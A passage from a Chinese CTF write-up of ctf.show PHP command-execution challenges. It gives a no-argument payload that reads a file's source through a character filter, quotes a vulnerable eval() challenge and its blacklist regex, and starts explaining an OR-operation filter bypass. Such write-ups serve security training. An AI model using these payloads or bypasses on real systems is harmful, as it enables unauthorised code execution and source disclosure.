 ```php
}
```

屏蔽关键词 /[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\

这里要使用无参命令执行

payload：

> ?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

关于无参命令执行的一些解释

![image-20241109165447576](../assets/202411091654772.png)

#### web41

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 羽
# @Date:   2020-09-05 20:31:22
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:40:07
# @email: 1341963450@qq.com
# @link: https://ctf.show

*/

if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

过滤内容：`/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i`

这个题过滤了`$、+、-、^、~`使得**异或自增和取反**构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或[运算符](https://so.csdn.net/so/search?q=运算符&spm=1001.2101.3001.7020)`|`。
我们可以尝试从ascii为0-255的字符中，找到或运算能得到我们可用的字符的字符。
